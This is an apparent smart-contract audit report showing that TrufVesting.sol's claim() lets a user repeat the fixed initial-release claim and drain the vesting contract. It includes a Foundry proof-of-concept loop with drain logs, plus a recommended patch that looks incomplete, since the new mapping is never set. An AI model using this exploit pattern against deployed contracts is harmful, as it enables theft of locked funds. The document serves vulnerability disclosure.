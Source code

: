 Wide Lilac Terrier

high

# TrufVesting.sol :: claim() In the initialReleasePeriod an attacker can steal all the funds from the contract.

## Summary
**`claim()`** allows users to claim available vesting amounts, a vulnerability exists during the **`initialReleasePeriod`**. The fixed amount during this period enables an attacker to exploit and drain all the funds of the contract in this **`initialReleasePeriod`** as it does not track whether the amount has already been claimed.
## Vulnerability Detail
**`claim()`** enables users to retrieve their available vested tokens.
```Solidity
function claim(address user, uint256 categoryId, uint256 vestingId, uint256 claimAmount) public {
        if (user != msg.sender && (!categories[categoryId].adminClaimable || msg.sender != owner())) {
            revert Forbidden(msg.sender);
        }

        uint256 claimableAmount = claimable(categoryId, vestingId, user);
        if (claimAmount == type(uint256).max) {
            claimAmount = claimableAmount;
        } else if (claimAmount > claimableAmount) {
            revert ClaimAmountExceed();
        }
        if (claimAmount == 0) {
            revert ZeroAmount();
        }

        categories[categoryId].totalClaimed += claimAmount;
        userVestings[categoryId][vestingId][user].claimed += claimAmount;
        trufToken.safeTransfer(user, claimAmount);

        emit Claimed(categoryId, vestingId, user, claimAmount);
    }
```
It relies on [claimable()](https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L159-L202) to determine the amount a user can claim for a specific categoryId and vestingId. During the **`initialReleasePeriod`**, users can claim a predetermined **`initialRelease`** amount calculated as a percentage of the **`totalAmount`** invested.
```Solidity
 uint256 initialRelease = (totalAmount * info.initialReleasePct) / DENOMINATOR;
```
Next checks if it is in the **`initalReleasePeriod`**, in case of true returns the amount calculated in the previous step.
```Solidity
 startTime += info.cliff;

        if (startTime > block.timestamp) {
            return initialRelease;
        }
```
An this caluclated amount will be used in **`claim()`**.
```Solidity
uint256 claimableAmount = claimable(categoryId, vestingId, user);
```
Next checks if the **`claimableAmount`** is not greater than the **`claimAmount`** specified by the user. Registers the claimed amount and sends the tokens to the user.
```Solidity
else if (claimAmount > claimableAmount) {
            revert ClaimAmountExceed();
```
```Solidity
categories[categoryId].totalClaimed += claimAmount;
userVestings[categoryId][vestingId][user].claimed += claimAmount;
trufToken.safeTransfer(user, claimAmount);
```
The issue lies in the constant **`claimableAmount`** during the **`initialReleasePeriod`**, while **`claimAmount`** is user-controlled. 
```Solidity
 function claim(address user, uint256 categoryId, uint256 vestingId, uint256 claimAmount) public
```
An attacker can exploit this by setting **`claimAmount = claimableAmount`**, bypassing the check and illicitly draining all funds from the contract.
## POC
To run the POC, copy the provided code into **`TrufVesting.t.sol`**. 
Execute the test using the following command: **`forge test --match-test testAllFundsCanBeStolenInInitialReleasePeriod`**.
```Solidity
function testAllFundsCanBeStolenInInitialReleasePeriod() external {

        _setupVestingPlan();
        _setupExampleUserVestings();

        uint256 categoryId = 2;
        uint256 vestingId = 0;

        uint64 tgeTime = vesting.tgeTime();

        (,uint64 _initialReleasePeriod, uint64 _cliff,,) =
            vesting.vestingInfos(categoryId, vestingId);

        vm.warp(tgeTime + _initialReleasePeriod + _cliff - 1);
        
        uint256 claimableAmount = vesting.claimable(categoryId, vestingId, alice);

        vm.startPrank(alice);

        uint256 contractBalance = trufToken.balanceOf(address(vesting));

        console.log("Attacker Balance Before:", trufToken.balanceOf(alice));
        console.log("Contract Balance Before:", contractBalance);

        //attacker claims all the contract balance using claim
        while(trufToken.balanceOf(alice) < contractBalance) {
            vesting.claim(alice, categoryId, vestingId, claimableAmount);
        }

        (,uint256 claimed,,) = vesting.userVestings(categoryId, vestingId, alice);

        console.log("Attacker Balance After:", trufToken.balanceOf(alice));
        console.log("Contract Balance After:", trufToken.balanceOf(address(vesting)));

        //claimed attacker balance is equal to all contractBalance
        assertEq(contractBalance, claimed);
        //attacker steals all the funds of the contract
        assertEq(contractBalance, trufToken.balanceOf(alice));
        //all funds of the contract is stolen
        assertEq(trufToken.balanceOf(address(vesting)), 0);

        vm.stopPrank();
    }
```
```Solidity
-----------------logs-----------------
Attacker Balance Before: 0
Contract Balance Before: 1025400000000000000000000
Attacker Balance After: 1025400000000000000000000
Contract Balance After: 0
```
## Impact
In the initialReleasePeriod, an attacker has the capability to steal all the funds from the contract.
## Code Snippet
https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L159-L202
https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L212-L232
## Tool used
Manual Review.
## Recommendation
Create a mapping to track whether users have already claimed the **`initialRelease`** amount. Implement a require within the **`claimable()`** to check it.
```Solidity
 mapping(uint256 => mapping(uint256 => mapping(address => bool))) public initialReleaseAmountClaimed;
```
```diff
function claimable(uint256 categoryId, uint256 vestingId, address user)
        public
        view
        returns (uint256 claimableAmount)
    {
        UserVesting memory userVesting = userVestings[categoryId][vestingId][user];

        VestingInfo memory info = vestingInfos[categoryId][vestingId];

        uint64 startTime = userVesting.startTime + info.initialReleasePeriod;

        if (startTime > block.timestamp) {
            return 0;
        }

        uint256 totalAmount = userVesting.amount;

        uint256 initialRelease = (totalAmount * info.initialReleasePct) / DENOMINATOR;

        startTime += info.cliff;

        if (startTime > block.timestamp) {
+           require(initialReleaseAmountClaimed[categoryId][vestingId][user] == false, "initalRelease amount already claimed")
            return initialRelease;
        }

        uint64 timeElapsed = ((uint64(block.timestamp) - startTime) / info.unit) * info.unit;

        uint256 vestedAmount = ((totalAmount - initialRelease) * timeElapsed) / info.period + initialRelease;

        uint256 maxClaimable = userVesting.amount - userVesting.locked;
        if (vestedAmount > maxClaimable) {
            vestedAmount = maxClaimable;
        }
        if (vestedAmount <= userVesting.claimed) {
            return 0;
        }

        claimableAmount = vestedAmount - userVesting.claimed;
        uint256 emissionLeft = getEmission(categoryId) - categories[categoryId].totalClaimed;

        if (claimableAmount > emissionLeft) {
            claimableAmount = emissionLeft;
        }
    }
```
